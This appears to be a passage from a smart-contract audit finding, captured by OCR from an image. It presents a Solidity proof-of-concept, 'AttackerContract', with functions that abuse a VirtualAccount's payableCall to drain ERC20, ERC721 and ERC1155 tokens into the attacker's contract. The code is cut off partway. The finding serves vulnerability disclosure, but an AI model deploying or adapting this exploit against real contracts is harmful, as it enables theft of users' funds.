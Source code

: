 - Functions starting with "attack" are used to drain funds
- Functions starting with "withdraw" are used by attacker to withdraw the drained funds from his contract
```solidity
File: AttackerContract.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {IVirtualAccount, PayableCall} from "./IVirtualAccount.sol";

import {ERC1155} from "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import {ERC721} from "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract AttackerContract {

 address owner;
 IVirtualAccount virtualAccount;
 PayableCall[] params;

 constructor(address _virtualAccount) {
   virtualAccount = IVirtualAccount(_virtualAccount);
   owner = msg.sender;
 }

 function attackERC20() public {
   bytes memory data = abi.encodeWithSignature("transfer(address,uint256)", address(this), 100000);

   PayableCall memory param = PayableCall({
     target: 0xaf88d065e77c8cC2239327C5EDb3A432268e5831,
     callData: data,
     value: 0
   });

   params.push(param);

   virtualAccount.payableCall(params);
 }

 function attackERC721() public {
   bytes memory data = abi.encodeWithSignature("safeTransferFrom(address,address,uint256)", virtualAccount, address(this), 10);

   PayableCall memory param = PayableCall({
     target: 0xfAe39eC09730CA0F14262A636D2d7C5539353752,
     callData: data,
     value: 0
   });

   params.push(param);

   virtualAccount.payableCall(params);
 }


 function attackERC1155() public {
   bytes memory data = abi.encodeWithSignature("safeTransferFrom(address,address,uint256,uint256,bytes)", virtualAccount, address(this), 7, 100, "");

   PayableCall memory param = PayableCall({
     target: 0xF3d00A2559d84De7aC093443bcaAdA5f4eE4165C,
     callData: data,
     value: 0
   });
```